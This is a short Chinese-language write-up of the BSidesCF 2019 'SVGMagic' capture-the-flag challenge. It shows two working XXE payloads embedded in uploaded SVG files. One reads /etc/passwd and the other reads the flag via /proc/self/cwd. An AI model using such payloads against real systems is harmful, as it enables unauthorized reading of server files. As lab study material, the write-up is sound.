

# [BSidesCF 2019]SVGMagic

上传SVG文件会进行渲染，并显示PNG渲染结果。

SVG实际上是一个XML文档。因此可能出现XXE问题。我们试一下。翻[参考文档](https://developer.mozilla.org/en-US/docs/Web/SVG/Element)SVG标签中能插入元素的有<text>，所以直接写一个进去：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<svg width="512px" height="190px" viewBox="0 0 512 190" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" preserveAspectRatio="xMidYMid">
    <g>
		<text x="0" y="15" fill="red">&xxe;</text>
	</g>
</svg>
```

`/proc/self/cwd/`代表当前路径。构造`/proc/self/cwd/flag.txt`读文件。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt" >]>
<svg width="512px" height="190px" viewBox="0 0 512 190" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" preserveAspectRatio="xMidYMid">
    <g>
		<text x="0" y="15" fill="red">&xxe;</text>
	</g>
</svg>
```

